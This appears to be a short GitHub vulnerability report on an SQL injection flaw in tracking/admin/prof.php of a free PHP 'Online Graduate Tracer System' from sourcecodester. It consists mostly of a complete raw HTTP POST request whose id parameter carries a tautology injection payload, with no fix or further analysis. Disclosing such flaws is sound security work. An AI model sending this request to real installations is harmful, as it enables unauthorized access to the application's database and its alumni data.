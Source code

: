 # Online Graduate Tracer System for College of ICT Alumni in PHP Free Source Code
### vendors:https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html
### The program is built using the phpstudy 8.1.1.3
#### Vulnerability File: tracking/admin/prof.php
#### Vulnerability location: tracking/admin/prof.php
#### payload:post http://www.testcms.com/tracking/admin/prof.php checking=1&id=1*
```
POST /tracking/admin/prof.php HTTP/1.1
Host: www.testcms.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.testcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.testcms.com/tracking/admin/adminlog.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; 
x-forwarded-for: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

checking=1&id=1' or '1'='1
```

![image](https://user-images.githubusercontent.com/127461763/224211271-98d157ec-70ca-44f7-b469-857cdd5f4f2c.png)
